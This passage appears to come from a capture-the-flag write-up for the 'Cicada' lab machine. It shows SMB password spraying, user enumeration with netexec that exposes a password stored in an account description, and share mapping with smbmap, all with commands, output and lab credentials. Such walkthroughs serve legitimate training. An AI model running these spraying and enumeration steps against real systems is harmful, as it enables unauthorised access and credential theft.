 ```
SMB         10.129.78.76    445    CICADA-DC        [-] cicada.htb\john.smoulder:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.129.78.76    445    CICADA-DC        [-] cicada.htb\krbtgt:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.129.78.76    445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.129.78.76    445    CICADA-DC        [-] cicada.htb\sarah.dantelia:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
```

We have found our first credenials `michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8`. Unfortunately `smbmap` (re)enumeration shows that it does not have access to `DEV` share nor it could be used to access target over Windows Remote Management. Let's try to use for further (not bruteforced) users enumeration.

```
netexec smb $TARGET_IP -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
```
```
SMB         10.129.78.76    445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.78.76    445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.129.78.76    445    CICADA-DC        -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         10.129.78.76    445    CICADA-DC        Administrator                 2024-08-26 20:08:03 1       Built-in account for administering the computer/domain 
SMB         10.129.78.76    445    CICADA-DC        Guest                         2024-08-28 17:26:56 1       Built-in account for guest access to the computer/domain 
SMB         10.129.78.76    445    CICADA-DC        krbtgt                        2024-03-14 11:14:10 1       Key Distribution Center Service Account 
SMB         10.129.78.76    445    CICADA-DC        john.smoulder                 2024-03-14 12:17:29 1        
SMB         10.129.78.76    445    CICADA-DC        sarah.dantelia                2024-03-14 12:17:29 1        
SMB         10.129.78.76    445    CICADA-DC        michael.wrightson             2024-03-14 12:17:29 0        
SMB         10.129.78.76    445    CICADA-DC        david.orelious                2024-03-14 12:17:29 1       Just in case I forget my password is aRt$Lp#7t*VQ!3 
SMB         10.129.78.76    445    CICADA-DC        emily.oscars                  2024-08-22 21:20:17 1        
SMB         10.129.78.76    445    CICADA-DC        [*] Enumerated 8 local users: CICADA
```

It seems password for `david.orelious` has been (unwisely) stored user in description. For this user we still can not spawn shell using WinRM, but `smbmap` shows it has access to `DEV` share.

```
smbmap -u david.orelious -p 'aRt$Lp#7t*VQ!3' -H $TARGET_IP
```
```
    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.5 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                          
```